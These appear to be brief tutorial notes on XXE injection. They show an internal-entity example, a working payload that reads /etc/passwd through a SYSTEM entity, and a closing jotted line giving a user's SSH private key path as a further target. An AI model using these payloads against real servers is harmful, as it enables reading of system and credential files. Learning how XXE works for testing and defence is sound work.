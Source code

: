 # XXE Payload

<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>

As we can see we are defining a ENTITY called name and assigning it a value feast:

falcon feast

---

We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file /etc/passwd.

where is ssh key located linux?

home/falcon/.ssh/id_rsa
